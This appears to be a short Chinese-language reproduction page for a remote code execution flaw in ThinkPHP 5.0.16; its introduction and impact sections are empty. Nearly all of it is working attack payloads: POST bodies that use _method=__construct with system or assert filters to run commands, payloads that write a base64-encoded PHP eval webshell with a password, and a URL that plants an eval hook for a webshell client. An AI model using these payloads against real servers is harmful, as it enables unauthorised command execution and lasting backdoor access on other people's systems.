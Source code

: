 ```yaml
---
title: "Thinkphp 5.0.16"
id: zhfly3152
---
```


# Thinkphp 5.0.16

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> https://www.0-sec.org/?s=index/index

```
post `s=whoami&_method=__construct&method=POST&filter[]=system

aaaa=whoami&_method=__construct&method=GET&filter[]=system

_method=__construct&method=GET&filter[]=system&get[]=whoami

c=system&f=calc&_method=filter` 
```

> 写shell

```
POST `s=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)&_method=__construct&method=POST&filter[]=assert` 
```

> 有captcha路由时无需debug=true

> https://www.0-sec.org/?s=captcha/calc

```
POST `_method=__construct&filter[]=system&method=GET` 
```

> 写shell

```
post

s=file_put_contents(’/绝对路径/test.php’,base64_decode(‘PD9waHAgJHBhc3M9JF9QT1NUWydhYWFhJ107ZXZhbCgkcGFzcyk7Pz4’))&_method=__construct&filter=assert `密码aaaa` 
```

> 直接菜刀连

```
http://wwww.0-sec.org/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_POST[1]) 
```